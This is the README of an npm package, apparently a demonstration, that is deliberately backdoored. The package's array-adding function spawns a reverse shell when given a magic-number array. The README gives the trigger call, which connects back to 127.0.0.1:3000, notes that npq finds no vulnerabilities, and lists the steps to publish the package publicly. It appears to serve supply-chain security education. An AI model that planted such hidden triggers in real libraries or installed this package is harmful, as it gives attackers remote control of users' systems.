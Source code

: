 # README.md 
This is a bad module.  It contains a Remote Code Execution exploit that is intentionally exploitable.  

Published to : https://www.npmjs.com/package/@chrisguest75/array_add_rce  

## Create
Simple steps to recreate and push to github and npm 
```sh
git init 
npm init --scope=@chrisguest75
hub create
```

## Test
It's good that the unittests pass, right?  
```sh
npm test
```

## Publish 

```sh
npm publish --access public
```

## Usage
You can use [npq](https://www.npmjs.com/package/npq) to install.  
But it will tell you there are no vulnerabilities. 

```sh
npm install @chrisguest75/array_add_rce
```

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

let numbers = [1, 2, 3, 4, 5];
let answer = addArrayNumbers(numbers);
```

## Exploit
It contains a magic number that spawns a reverse shell.

```js
const [addTwoNumbers, addArrayNumbers] = require('@chrisguest75/array_add_rce');

// Connect back to port 127.0.0.1:3000
let numbers = [967, 78, 127, 0, 0, 0, 3000];
let answer = addArrayNumbers(numbers);
```

## Linting
Required extension
```sh
code --install-extension dbaeumer.vscode-eslint
```

Run linting from shell
```sh
npm run-script lint   
```